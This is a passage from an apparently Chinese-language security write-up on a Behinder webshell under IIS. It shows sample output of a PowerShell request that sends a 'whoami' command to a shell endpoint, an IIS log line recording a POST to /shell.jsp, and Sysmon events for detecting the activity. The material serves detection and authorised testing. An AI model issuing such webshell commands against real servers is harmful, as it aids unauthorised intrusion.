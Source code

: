 ### 示例输出
```powershell
Invoke-WebRequest -Uri http://127.0.0.1:8080/command -Method Post -Body @{cmd="whoami"}
StatusCode        : 200
StatusDescription : OK
Content           : contoso\user
```

```cmd
type C:\inetpub\logs\LogFiles\W3SVC1\u_ex250610.log
2025-06-10 03:00:00 127.0.0.1 POST /shell.jsp - 80 - 127.0.0.1 Mozilla/5.0+(Behinder) 200 0 0 123
```

**注意**：此复现仅用于学习和测试目的，需在合法授权的测试环境中进行，切勿用于非法活动。

## 日志留痕

- **Sysmon日志（事件ID 1，进程创建）**：
  ```plaintext
  EventID: 1
  UtcTime: 2025-06-10 03:00:00.123
  ProcessGuid: {12345678-abcd-1234-abcd-1234567890ab}
  ProcessId: 5678
  Image: C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
  CommandLine: powershell.exe -Command "Invoke-WebRequest -Uri http://127.0.0.1:8080/command -Method Post -Body @{cmd='whoami'}"
  ParentImage: C:\Windows\System32\cmd.exe
  User: CONTOSO\User
  IntegrityLevel: Medium
  ```

- **Sysmon日志（事件ID 3，网络连接）**：
  ```plaintext
  EventID: 3
  UtcTime: 2025-06-10 03:00:00.234
  ProcessGuid: {12345678-abcd-1234-abcd-1234567890ab}
  Image: C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
  DestinationIp: 127.0.0.1
  DestinationPort: 8080
  Protocol: tcp
  User: CONTOSO\User
  ```

- **Sysmon日志（事件ID 1，Webshell子进程）**：
  ```plaintext
  EventID: 1
  UtcTime: 2025-06-10 03:00:00.345
  ProcessGuid: {abcdef12-3456-7890-abcd-ef1234567890}
  ProcessId: 6789
  Image: C:\Windows\System32\cmd.exe
  CommandLine: cmd.exe /c whoami
  ParentImage: C:\Windows\System32\inetsrv\w3wp.exe
  User: NT AUTHORITY\NETWORK SERVICE
  IntegrityLevel: High
  ```
